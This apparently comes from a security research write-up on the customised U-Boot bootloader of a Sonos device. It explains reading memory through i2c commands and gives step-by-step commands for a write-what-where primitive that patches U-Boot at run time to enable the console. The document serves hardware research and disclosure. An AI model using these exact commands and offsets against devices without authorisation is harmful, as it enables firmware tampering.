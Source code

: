 ## U-Boot

Based on the Sonos employee email in the U-Boot version string it is likely
that this version of U-Boot is customised for Sonos. It likely also contains
Amlogic provided U-Boot patches for the A113 SoC.

Unfortunately, it appears that `tftp`, `base`, and other commands which may
assist in either dumping or loading data from U-Boot have been removed.

Although the full scope of the differences between vanilla U-Boot and the
Sonos `U-Boot 2016.11-A113-Strict-Rev0.14` version used by this unit are
currently unknown, the 'vanilla' U-Boot sources for `2016.11` can be found
at the following URL:

* [U-Boot 2016.11](https://github.com/u-boot/u-boot/tree/29e0cfb4f77f7aa369136302cee14a91e22dca71)

### Options / Commands

A brief summary of the commands available at the U-Boot prompt can be found
in the following text dump:

* [J3-Console-Uboot-Help.txt](./dumps/j3-console-uboot-help.txt)

### Memory Read-Out

Arbitrary memory read-out has been achived by abusing the `i2c` commands
present in the version of U-Boot as shipped with the unit. Though the use of
Python, the [serial console](./CONSOLE.md), and a logic analyser connected
to the [i2c bus](./EEPROM.md) it is possible to slowly read data directly
from memory, and onto the i2c bus.

The following script (`i2c-thief.py`) provides a working example of how this
can be achieved, though this process is exceedingly slow. Current estimates
put the speed in the range of around **55-bytes a second**.

* [i2c-thief.py](./scripts/i2c-thief.py)

### Write-What-Where

A write-what-where primitive is possible by using the i2c bus, and a writable
register on a device already present - such as the PWM register of the LP5562
LED controller. This process effectively abuses the i2c bus and the LP5562 LED
controller (which controls the lights on the top of the unit) in order to
provide a write-what-where primitive for run-time patching of U-Boot.

The crux of this example is to flip the `op` bit to convert instruction
`CBZ` (`0x34`) to `CBNZ` (`0x35`) in the `sonosboot` U-Boot command. This
will cause the `enable_console=1` argument to be added to the Linux Kernel
boot arguments (`init`).

0. Trigger an Abort by attempting to read from trustzone addresses to leak
the address of the `i2c_write` function via the `ELR`. Calculate the base
address by subtracting the known offset of this address from the address in
the `ELR` register. In the case of this version of U-Boot on this platform
this offset is `0x2C494`.
```
i2c write 0x82000030 0x51 0x00 0x1
```

1. Read initial opcode bits from instruction at `0x1005830` to LED controller
(`LP5562`) PWM register.
```
i2c write 0x3ff26833 0x30 0x70 0x1
```

2. Get the initial instruction value from the LP5562 PWM register to ensure
it is an `CBZ` (`0x34`) instruction as expected.
```
i2c md 0x30 0x70 0x1
```

3. Flip the `op` bit in the instruction to patch to `CBNZ` (`0x35`), and write
to the LP5562 PWM register. This is required as only values that already exist
somewhere on the i2c bus can be written into memory, so this register is used
as a 'spool'.
```
i2c mw 0x30 0x70 0x35
i2c md 0x30 0x70 0x1
```

4. Read the new instruction from the i2c bus into memory over the top of the
old `CBZ` instruction.
```
i2c read 0x30 0x70 0x1 0x3ff26833
```

5. Confirm the write by reading back to the PWM register to confirm the write
was successful.
```
i2c write 0x3ff26833 0x30 0x70 0x1
i2c md 0x30 0x70 0x1
```

6. Boot the device.
```
sonosboot
```

7. Observe the new console output, though no shell due to additional checks
implemented by Sonos in `secure_console.sh`. Be sad :(
